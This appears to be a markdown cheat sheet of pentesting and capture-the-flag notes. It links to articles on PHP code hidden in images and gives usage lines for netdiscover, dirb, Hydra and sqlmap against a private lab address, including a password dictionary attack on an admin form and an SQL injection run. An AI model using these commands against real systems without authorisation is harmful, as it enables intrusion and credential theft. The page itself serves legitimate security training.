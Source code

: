 # Pentesting / Capture the Flag

## Links

-   [A Penetration Tester’s Guide to Postgres](https://medium.com/@cryptocracker99/a-penetration-testers-guide-to-postgresql-d78954921ee9)
-   [Code injection – a simple PHP virus carried in a JPEG image](http://php.webtutor.pl/en/2011/05/13/php-code-injection-a-simple-virus-written-in-php-and-carried-in-a-jpeg-image/)
-   [Injecting Malicious PHP In To An Image File : Injection And Execution](http://techyzilla.blogspot.ca/2012/07/injecting-malicious-php-in-to-an-image-file.html)

## Useful Commands

### Searching a range of IP Address

```
root@kali:~# netdiscover -i eth2 -r 192.168.0.0/24

 Currently scanning: Finished!   |   Screen View: Unique Hosts

 4 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 240
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.0.1     f8:1a:67:5a:fe:24      1      60  TP-LINK TECHNOLOGIES CO.,LTD
 192.168.0.100   a8:60:b6:3a:56:ce      2     120  Apple, Inc.
 192.168.0.101   e0:3f:49:14:a9:0d      1      60  Unknown vendor
```

## Useful Tools

### DIRB

Searches all the directory contents on a website

#### Usage

```shell
dirb http://192.168.0.104/ /usr/share/wordlists/dirb/big.txt
```

#### Resources

-   [http://tools.kali.org/web-applications/dirb](http://tools.kali.org/web-applications/dirb)
-   [https://github.com/seifreed/dirb](https://github.com/seifreed/dirb)

### gobuster

Directory/file & DNS busting tool written in Go.

#### Resources

-   [https://github.com/OJ/gobuster](https://github.com/OJ/gobuster)

### Hydra

Exploiting Username and Password forms.

#### Usage

```shell
hydra 192.168.0.104 http-post-form '/imfadministrator/index.php:user=^USER^&pass=^PASS^:Invalid password' -L /root/usernames.txt -P /usr/share/wordlists/metasploit/password.lst -vV -t 10 -w 30 -o hydra-http-post-attack.txt
```

#### Resources

-   [http://tools.kali.org/password-attacks/hydra/](http://tools.kali.org/password-attacks/hydra/)
-   [https://www.blackmoreops.com/2015/12/23/crack-passwords-in-kali-linux-with-hydra/](https://www.blackmoreops.com/2015/12/23/crack-passwords-in-kali-linux-with-hydra/)
-   [http://insidetrust.blogspot.ca/2011/08/using-hydra-to-dictionary-attack-web.html](http://insidetrust.blogspot.ca/2011/08/using-hydra-to-dictionary-attack-web.html)

### sqlmap

Used for doing SQL injection stuff.

#### Usage

When having to log into an PHPSESSIONID auth:

```shell
sqlmap -u http://192.168.0.104/imfadministrator/cms.php?pagename=upload --banner --cookie="PHPSESSID=m0i2uapvsqlklug2tpe2a8cis2; security=low" -f
```
